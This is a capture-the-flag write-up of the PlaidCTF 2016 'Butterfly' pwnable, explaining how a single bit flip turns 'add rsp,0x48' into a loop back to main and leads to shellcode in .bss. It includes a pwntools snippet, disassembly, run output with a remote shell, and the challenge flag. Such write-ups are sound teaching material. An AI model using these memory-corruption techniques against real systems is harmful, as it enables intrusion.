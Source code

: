 ```yaml
---
layout: post
title: Plaidctf 2016 Butterfly
comments: false
category: ctf
tags: ctf, plaidctf, reversing, pwnable
---
```


This is a write-up of the challenge Butterfly from the Plaid ctf 2016.

# The challenge

Butterfly is a 64bit x86 linux pwnable, which simply lets you flip a single bit by shining a cosmic ray at it.

It works by `mprotect`'ing the page with read-write-execute before flipping the bit and then calling mprotect again to remove write rigths.

# The exploit

As we can flip arbitary bits in both the code and data, it knew that we should either flip the bit the code of `main` or in some got entry,
to get control of `rip`.

At the end of `main` we found:
```text
  400860:   48 83 c4 48             add    rsp,0x48
  400864:   5b                      pop    rbx
  400865:   41 5e                   pop    r14
  400867:   41 5f                   pop    r15
  400869:   5d                      pop    rbp
  40086a:   c3                      ret
```
and thus flipping the 6'th bit at 400863 would change the `add rsp,0x48` to `add rsp, 0x8`,
and so `main` would return to an address of our choosing.

So by letting `main` to return to `main` we was able to get unlimited bit flips.

```python
from pwn import *
context(arch="amd64")

e = ELF("./butterfly_33e86bcc2f0a21d57970dc6907867bed")
#r = remote("butterfly.pwning.xxx", 9999)
r = process("./butterfly_33e86bcc2f0a21d57970dc6907867bed")

addr = 0x400860+3
num = (addr << 3) + 6
r.sendline(str(num).ljust(40)+p64(e.symbols["main"]))
```

which when run gives us:

```sh
$ python doit_butterfly.py
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed'
[+] Starting program './butterfly_33e86bcc2f0a21d57970dc6907867bed': Done
[*] Switching to interactive mode
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
```

note that "THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?" is written twice, this is because we are re-executing `main`.

So from here it was easy to write some shellcode in the `.bss` and just return to it...

# Final exploit

{% gist 9ae520bc2bfeca537bd119760f149f0b %}
```sh
[*] '/home/user/butterfly_33e86bcc2f0a21d57970dc6907867bed'
    Arch:          amd64-64-little
    RELRO:         No RELRO
    Stack Canary:  Canary found
    NX:            NX enabled
    PIE:           No PIE
[x] Opening connection to butterfly.pwning.xxx on port 9999
[x] Opening connection to butterfly.pwning.xxx on port 9999: Trying 13.92.239.242
[+] Opening connection to butterfly.pwning.xxx on port 9999: Done
[*] Switching to interactive mode
WAS IT WORTH IT???
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
WAS IT WORTH IT???
id
uid=1001(problem) gid=1001(problem) groups=1001(problem)
cat flag
PCTF{b1t_fl1ps_4r3_0P_r1t3}
```


